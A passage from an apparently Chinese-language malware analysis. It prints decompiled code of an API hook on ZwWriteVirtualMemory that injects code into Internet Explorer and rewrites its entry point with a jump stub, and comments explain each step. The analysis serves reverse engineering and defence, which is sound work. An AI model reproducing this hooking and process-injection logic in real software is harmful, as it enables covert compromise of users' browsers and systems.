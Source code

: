 ```
      *(_DWORD *)((char *)procaddr + 1) = (_BYTE *)hookaddr - (_BYTE *)procaddr - 5;
      *(_DWORD *)a4 = (char *)v12 + 5;
      VirtualProtect(v12, dwSize, flOldProtect, &v10);
      v9 = 1;
    }
    VirtualProtect(procaddr, 0xAu, flOldProtect, &v10);
  }
  return v9;
}
```

&emsp;&emsp;我自己做了个实验，CreateProcess也确实触发了NtWriteVirtualMemory，且目标句柄确实是IE的，所以重点在于挂钩函数的分析：
```
// write access to const memory has been detected, the output may be wrong!
__int64 __stdcall new_ZwWriteVirtualMemory(HANDLE hProcess, PVOID BaseAddress, PVOID Buffer, int NumberOfBytesToWrite, int *NumberOfBytesWritten)
{
  __int64 v5; // rax@1
  char *v6; // eax@3
  LONGLONG v7; // kr00_8@4
  __int64 v9; // [sp-20h] [bp-28h]@1
  SIZE_T NumberOfBytesWrittena; // [sp+0h] [bp-8h]@5
  DWORD oldpro; // [sp+4h] [bp-4h]@5

  LODWORD(v5) = old_ZwWriteVirtualMemory(
                  hProcess,                     // here is IE process id
                  BaseAddress,					//some address in IE
                  Buffer,
                  NumberOfBytesToWrite,
                  NumberOfBytesWritten);
  v9 = v5;
  if ( hProcess != (HANDLE)-1 && !ieentry )
  {
v6 = GetEntryPointForProcess(hProcess);
//利用ZwQueryInformationProcess从PEB里获取IE进程的ImageBase，之后解析内存PE得到入口点
    if ( v6 )
    {
      dword_40DFA3 = 1;
      ieentry = v6;
      v7 = ModifyIe(hProcess, &injectcode, 0x9800);//将重要数据(INJECTSTR)和函数注入到目标进程，见①②
      ie_inject_d = HIDWORD(v7);
      ie_inject_f = v7;
      if ( ie_inject_f )
      {
        VirtualProtectEx(hProcess, ieentry, 0xCu, 0x40u, &oldpro);
        WriteProcessMemory(hProcess, ieentry, &jmpshell, 0xCu, &NumberOfBytesWrittena);//改写IE入口点逻辑
                                                //jmpshell硬编码以下指令： sizeof=0x0C
                                                // +00 0xBF            mov edi, ie_inject_f
                                                // +01 ie_inject_f
                                                // +05 0x68            push ie_inject_d
                                                // +06 ie_inejct_d
                                                // +0A 0xFF            call edi
                                                // +0B 0xD7
        VirtualProtectEx(hProcess, ieentry, 0xCu, oldpro, &oldpro);// 
      }
    }
  }
  return v9;
}
```
